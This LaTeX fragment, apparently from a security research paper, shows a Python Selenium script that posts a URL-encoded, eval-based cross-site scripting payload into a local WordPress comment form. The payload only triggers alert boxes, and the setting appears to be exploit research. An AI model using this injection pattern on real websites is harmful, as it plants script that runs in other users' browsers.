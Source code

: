 \documentclass[letterpaper,twocolumn,10pt]{article}
\begin{document}
\begin{minipage}{\textwidth}
{\tt \footnotesize
\begin{lstlisting}
payload = "<a href=\"#\" title=\"XSS http:" \
          "//example.com/onmouseover=eval(" \
          "unescape(/%61%6c%65%72%74%28%31" \
          "%29%3b%61%6c%65%72%74%28%32%29%" \
          "3b%61%6c%65%72%74%28%33%29%3b/." \
          "source))//\">XSS</a>"

driver = self.create_selenium_driver()

driver.get("http://localhost/wordpress/?p=1")
get = driver.find_element_by_id
get("author").send_keys("selenium script")
get("email").send_keys("selenium@python.org")
get("url").send_keys("www.python.org")
get("comment").send_keys(payload)
get("submit").click()
\end{lstlisting}
}
\end{minipage}

\subsection{Corpus Development}
\end{document}
